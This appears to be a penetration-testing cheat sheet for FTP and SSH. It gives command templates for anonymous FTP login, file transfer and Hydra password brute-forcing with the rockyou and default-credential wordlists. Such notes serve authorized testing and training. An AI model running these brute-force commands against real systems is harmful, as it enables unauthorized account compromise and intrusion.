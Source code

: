 ## Port 21 (FTP)

### Anonymous Access

```
ftp anonymous@<<IP>>
```
### Download file

```
ftp <IP>
PASSIVE
BINARY
get <FILE>
```
### Upload File

```
ftp <IP>
PASSIVE
BINARY
put <FILE>
```
### FTP Brute-Force

```
hydra -L /usr/share/wordlists/dirb/others/names.txt -P /usr/share/wordlists/rockyou.txt <<IP>> ftp
```

```
hydra -l <<USERNAME>> -P /usr/share/wordlists/rockyou.txt <<IP>> ftp
```

**Default Credentials**
```
hydra -C /usr/share/wordlists/seclists/Passwords/Default-Credentials/ftp-betterdefaultpasslist.txt <<IP>> ftp
```

**Specify Port**
```
hydra -L /usr/share/wordlists/dirb/others/names.txt -P /usr/share/wordlists/rockyou.txt <<IP>> -s <<PORT>> ftp
```



## Port 22 (SSH)

### SSH Brute-Force 

```
hydra -L /usr/share/wordlists/dirb/others/names.txt -P /usr/share/wordlists/rockyou.txt <<IP>> ssh
```
